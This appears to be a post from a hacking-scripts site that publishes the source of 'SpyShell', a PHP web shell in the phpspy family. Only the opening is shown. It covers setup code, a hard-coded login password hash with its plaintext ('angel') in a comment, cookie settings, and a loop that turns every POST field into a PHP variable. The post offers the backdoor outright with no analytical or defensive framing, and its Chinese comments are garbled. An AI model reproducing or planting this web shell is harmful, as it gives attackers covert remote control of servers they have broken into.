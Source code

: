 ```yaml
---
id: 248
title: SpyShell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=248
permalink: /spyshell-script/
categories:
  - PHP
tags:
  - PHP
  - phpspy
  - spyshell
---
```

SpyShell Script, powered by Security Angel Team [S4T].

## SpyShell Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
error_reporting(7);
@set_magic_quotes_runtime(0);
ob_start();
$mtime = explode(' ', microtime());
$starttime = $mtime[1] + $mtime[0];
define('SA_ROOT', str_replace('\\', '/', dirname(__FILE__)).'/');
define('IS_WIN', DIRECTORY_SEPARATOR == '\\');
define('IS_COM', class_exists('COM') ? 1 : 0 );
define('IS_GPC', get_magic_quotes_gpc());
$dis_func = get_cfg_var('disable_functions');
define('IS_PHPINFO', (!eregi("phpinfo",$dis_func)) ? 1 : 0 );
@set_time_limit(0);

foreach($_POST as $key =&gt; $value) {
	if (IS_GPC) {
		$value = s_array($value);
	}
	$$key = $value;
}
/*===================== ³ÌÐòÅäÖÃ =====================*/

//echo encode_pass('angel');exit;
//angel = ec38fe2a8497e0a8d6d349b3533038cb
// Èç¹ûÐèÒªÃÜÂëÑéÖ¤,ÇëÐÞ¸ÄµÇÂ½ÃÜÂë,Áô¿ÕÎª²»ÐèÒªÑéÖ¤
$pass  = 'ec38fe2a8497e0a8d6d349b3533038cb'; //angel

//ÈçÄú¶Ô cookie ×÷ÓÃ·¶Î§ÓÐÌØÊâÒªÇó, »òµÇÂ¼²»Õý³£, ÇëÐÞ¸ÄÏÂÃæ±äÁ¿, ·ñÔòÇë±£³ÖÄ¬ÈÏ
// cookie Ç°×º
$cookiepre = '';
// cookie ×÷ÓÃÓò
$cookiedomain = '';
// cookie ×÷ÓÃÂ·¾¶
$cookiepath = '/';
// cookie ÓÐÐ§ÆÚ
$cookielife = 86400;
